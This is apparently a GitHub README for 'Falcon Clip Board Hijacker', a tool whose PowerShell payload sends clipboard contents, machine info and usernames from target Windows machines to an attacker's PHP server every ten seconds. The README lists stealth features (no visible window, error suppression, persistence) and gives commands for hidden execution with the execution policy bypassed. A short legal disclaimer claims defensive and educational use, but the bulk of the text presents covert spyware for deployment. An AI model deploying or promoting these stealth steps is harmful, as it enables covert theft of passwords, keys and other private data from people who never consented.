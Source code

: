 # Falcon Clip Board Hijacker 🦅

<p align="center">
    <img src="https://raw.githubusercontent.com/rgsecteam/rgsectm/refs/heads/main/image/thumbinels/falcon.png">
    
</p>
<img src="https://img.shields.io/badge/License-MIT-blue.svg">

# What is Falcon-Hijacker?
<p>Falcon Hijacker is a professional clipboard monitoring tool designed for authorized security assessments. It captures real-time clipboard data from target systems through a streamlined bash interface.</p>

## This Tool Tested On :
  - Kali Linux
  - Parrot Sec OS
  - ~~Termux~~ (Not tested)



## 📊 Advanced Monitoring

  - **Live Data Stream:** Real-time clipboard viewing
  - **Structured Logging:** Timestamped entries with metadata
  - **Multiple Targets:** Capture from multiple machines simultaneously
  - **Export Ready:** Clean log format for analysis

## PowerShell Payload (clipboard_logger.ps1)
  - **Frequency:** Checks clipboard every 10 seconds
  - **Data Sent:** Clipboard content + machine info + username
  - **Stealth:** No visible window, error suppression
  - **Persistence:** Runs until manually stopped

## Installing and requirements
<p>This tool require PHP for webserver, and wget for downloading dependencies. First run following command on your terminal</p>

```
apt-get -y install php wget
```

## Installing Falcon:

```
git clone https://github.com/rgsecteam/falcon-hijacker
cd falcon-hijacker
bash falcon.sh
```
## Stealth Deployment:
<p>Run the following command on windows matchin. </p>

```
powershell -NoP -NonI -W h -Exec Bypass .\clipboard_logger.ps1
```
<p>For Hidden Execution</p>

```
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -File .\clipboard_logger.ps1" -WindowStyle Hidden
```

## Stop Hidden Execution
<p style="color:red">For Stop Powershell Background Process.</p>

```
Stop-Process -Name powershell -Force
```

## Legal & Ethical Notice
By using the materials in this repository you agree to:
- Use the information only for defensive, educational, or research purposes in controlled environments.
- Follow all applicable laws and organizational policies.
- **Do not** use this repository to harm others. Always obtain explicit permission before testing on systems you do not own.

#### For More Video subcribe <a href="http://youtube.com/@RGSecurityTeam">RGSecurityTeam YouTube Channel</a>

<p>Falcon-hijacker is inspired by https://github.com/techchipnet/ <br> Big thanks to <a href="https://github.com/techchipnet">@techchipnet</a></p>
